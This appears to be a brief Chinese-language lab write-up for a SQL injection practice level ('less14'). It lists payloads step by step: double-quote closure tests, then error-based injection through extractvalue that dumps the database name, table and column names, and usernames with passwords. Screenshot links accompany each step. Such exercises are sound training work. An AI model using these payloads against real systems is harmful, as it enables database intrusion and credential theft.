 # less14

`\`

得到`"`闭合



````
" or 1=2 #
" order by 1#
````

不显示报错位——报错注入：



```
" and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
```

![image-20220115142226534](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115142226534.png)

```
" AND extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema="security"),0x7e)) #
```

![image-20220115142456224](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115142456224.png)

```
" AND extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),0x7e)) #
```

![image-20220115142551392](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115142551392.png)

```
" AND extractvalue(1,concat(0x7e,(select substr(group_concat(username,0x7e,password),1) from users),0x7e)) #
```

![image-20220115142707974](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115142707974.png)

